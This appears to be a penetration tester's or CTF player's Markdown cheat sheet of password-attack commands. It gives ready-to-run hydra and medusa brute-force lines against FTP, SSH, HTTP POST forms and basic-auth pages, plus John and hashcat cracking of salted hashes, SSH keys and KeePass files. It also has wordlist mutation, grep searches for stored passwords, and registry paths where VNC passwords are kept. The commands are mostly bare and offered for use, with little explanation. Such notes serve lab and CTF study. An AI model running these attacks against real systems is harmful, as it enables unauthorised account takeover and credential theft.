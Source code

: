 # Cheetsheet

## Finding Passwords
```
grep -rl hash
grep -rl password
```

## Mutate wordlists
```
/etc/john/john.conf
> $[0-9]$[0-9]
```

```
john --wordlist=out.txt --rules --stdout > mutated.txt
```

## Password Cracking
```
john hashes.txt
```

## Htaccess

```
medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
```

## FTP
```
hydra  -l admin -P pass.txt -v ip ftp
```

## HTTP Post
```
hydra -l none -P rockyou.txt 10.10.10.43 http-post-form
"/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

## SSH

```
hydra -L usernames.txt -P passwords.txt -s 2222 ssh://10.10.10.66 -v -t 4
```

## Basic Auth
```
cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
```

## Salted Hash Cracking

### oclHashcat

oclHashcat input file should be in format: `passwordhash:salt`

```
oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
```

## RSA Private Key Password Recovery

```
ssh2john id_rsa > id_john
john id_john --wordlist=<PATH TO ROCKYOU.TXT>
```

## KeePass Password Recovery

```
keepass2john jeeves.kdbx > jeeves.hash
john jeeves.hash
```

## /etc/passwrd format

- [Understanding /etc/passwd File Format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)
- [Linux Password & Shadow File Formats](https://www.tldp.org/LDP/lame/LAME/linux-admin-made-easy/shadow-file-formats.html)
- Password Field
  - Format: `$id$salt$hashed` (`$id$$hashed` means no salt)
  - `*` account cannot be used to log in
  - `!!` user doesn't have a password
  - ` ` user doesn't have a password
  - `x` password is stored in the shadow file
  - id
    - `$1$` is MD5
    - `$2a$` is Blowfish
    - `$2y$` is Blowfish
    - `$5$` is SHA-256
    - `$6$` is SHA-512

Verify
```
pwck -r /etc/passwd
pwck -r /etc/shadow
```

Edit
```
vipw -p
vipw -s
vipw -g
```

Manually create password
```
openssl passwd -1 -salt xyz  yourpass
makepasswd --clearfrom=- --crypt-md5 <<< YourPass
mkpasswd  -m sha-512 -s <<< YourPass
echo -e "md5crypt\npassword" | grub | grep -o "\$1.*"
perl -e 'use Crypt::PasswdMD5; print unix_md5_crypt("Password", "Salt"),"\n"'
```

Update password
```
echo "username:password" | chpasswd
```
```
perl -e 'print crypt("YourPasswd", "salt"),"\n"'
echo "username:encryptedPassWd"  | chpasswd -e
OR
useradd -p 'encryptedPassWd'  username
```

## VNC

```
reg query HKLM\SOFTWARE\RealVNC\vncserver
Value: Password

reg query HKCU\Software\TightVNC\Server
Value: Password or PasswordViewOnly

reg query HKLU\Software\TigerVNC\WinVNC4
reg query HKLM\Software\TigerVNC\WinVNC4
Value: Password

C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```
